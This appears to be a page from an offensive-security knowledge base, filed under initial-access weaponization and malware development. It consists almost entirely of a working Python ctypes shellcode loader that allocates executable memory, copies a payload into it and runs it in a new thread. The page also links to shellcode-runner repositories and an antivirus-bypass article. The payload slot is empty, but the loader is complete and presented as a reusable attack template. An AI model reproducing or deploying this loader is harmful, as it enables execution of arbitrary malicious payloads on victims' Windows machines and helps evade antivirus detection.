 # Python

```python
import ctypes

shellcode = bytearray()
 
kernel32 = ctypes.windll.kernel32

VirtualAlloc = kernel32.VirtualAlloc
RtlMoveMemory = kernel32.RtlMoveMemory
CreateThread = kernel32.CreateThread
WaitForSingleObject = kernel32.WaitForSingleObject

pointer = VirtualAlloc(ctypes.c_int(0), ctypes.c_int(len(shellcode)),
                   ctypes.c_int(0x3000), ctypes.c_int(0x40))
 
buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
 
RtlMoveMemory(ctypes.c_int(pointer), buf, ctypes.c_int(len(shellcode)))
 
handle_thread = CreateThread(ctypes.c_int(0), ctypes.c_int(0), ctypes.c_int(pointer),
                  ctypes.c_int(0), ctypes.c_int(0), ctypes.pointer(ctypes.c_int(0)))
 
WaitForSingleObject(ctypes.c_int(handle_thread),ctypes.c_int(-1))
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/Malware Development/Payload Execution/Shellcode Loader/Memory Allocation/Windows/WinAPI/Simple Loader/Virtual Allocation/C]]

### Source Repositories

- https://momonguyen.com/2021/python-shellcode-runner/

- https://github.com/momo1239/buffshark-shellcode-runner

### Debasish Mandal

- [Debasish Mandal: Execute ShellCode Using Python](https://www.debasish.in/2012/04/execute-shellcode-using-python.html)

### Pentura Lab

- [Pentura Lab: Execute Shellcode, Bypassing Anti-Virus…](https://penturalabs.wordpress.com/2014/07/18/execute-shellcode-bypassing-anti-virus/)